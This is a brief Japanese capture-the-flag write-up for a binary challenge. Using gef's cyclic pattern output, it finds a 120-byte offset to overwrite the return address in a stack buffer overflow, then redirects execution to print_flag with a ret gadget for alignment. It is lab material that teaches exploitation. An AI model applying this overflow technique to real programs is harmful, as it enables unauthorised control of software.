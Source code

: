 `-1`を入力するとメールアドレスの入力を求められる。
配列の長さは112。
![](https://i.gyazo.com/bc3252c53224ae7e15f0032b36895bfa.png)

```
gef➤  pattern create 150                 
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa   
```

`-1`を入力した後に↑を入力して、

```
gef➤  pattern search $rsp
[+] Searching for '7061616161616161'/'6161616161616170' with period=8
[+] Found at offset 120 (little-endian search) likely
```

オフセットは120。あとは`print_flag`すればいい。スタックアラインメントがずれるので`ret`を挟む。